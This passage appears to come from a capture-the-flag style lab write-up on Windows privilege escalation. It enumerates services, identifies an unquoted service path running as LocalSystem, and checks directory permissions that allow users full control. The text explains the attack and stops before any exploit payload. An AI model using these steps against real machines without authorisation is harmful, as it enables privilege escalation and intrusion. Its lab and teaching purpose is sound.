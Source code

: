 Looking for non default services.

wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"


```
System Explorer Service                                                             SystemExplorerHelpService                 C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe  Auto
```

This path doesn't have quotes. The lack of quotation marks around this service path indicates that it might be vulnerable to an Unquoted Service Path attack. In short, if any of the directories in that path contain spaces (which several do) and are writeable (which we are about to check), then -- assuming the service is running as the NT AUTHORITY\SYSTEM account, we might be able to elevate privileges.

## Checking which account service runs

sc qc SystemExplorerHelpService

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Let's check the permissions on the directory. If we can write to it, we are golden.

powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"

```
Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files (x86)\System Explorer
Owner  : BUILTIN\Administrators
Group  : WREATH-PC\None
Access : BUILTIN\Users Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  268435456
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         BUILTIN\Users Allow  -1610612736
         CREATOR OWNER Allow  268435456
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -1610612736
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  -1610612736
Audit  : 
Sddl   : O:BAG:S-1-5-21-3963238053-2357614183-4023578609-513D:AI(A;OICI;FA;;;BU)(A;ID;FA;;;S-1-5-80-956008885-341852264
         9-1831038044-1853292631-2271478464)(A;CIIOID;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-22714784
         64)(A;ID;FA;;;SY)(A;OICIIOID;GA;;;SY)(A;ID;FA;;;BA)(A;OICIIOID;GA;;;BA)(A;ID;0x1200a9;;;BU)(A;OICIIOID;GXGR;;;
```